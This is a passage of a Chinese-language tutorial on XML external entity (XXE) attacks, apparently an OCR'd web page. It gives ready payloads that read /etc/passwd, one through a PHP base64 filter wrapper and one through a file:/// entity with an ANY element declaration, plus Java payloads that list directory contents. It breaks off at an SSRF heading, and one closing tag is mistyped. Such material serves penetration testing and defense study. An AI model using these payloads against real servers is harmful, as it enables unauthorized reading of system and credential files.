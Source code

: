 第二：如果目标服务器使用的是 PHP 环境，可以使用：

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

第三：将元素类别声明为 ANY：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

[![img](assets/1698894099-f7aba0c10238f7446b1475471820f9ff.png)](https://storage.tttang.com/media/attachment/2022/11/14/bc868fbc-b687-4036-8d21-cade57b23fa5.png)

### [读取目录](#toc__3)

在 java 的应用程序中，可以通过 XXE 列出目录的内容，payload 如下：

```plain
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### [SSRF](#toc_ssrf)
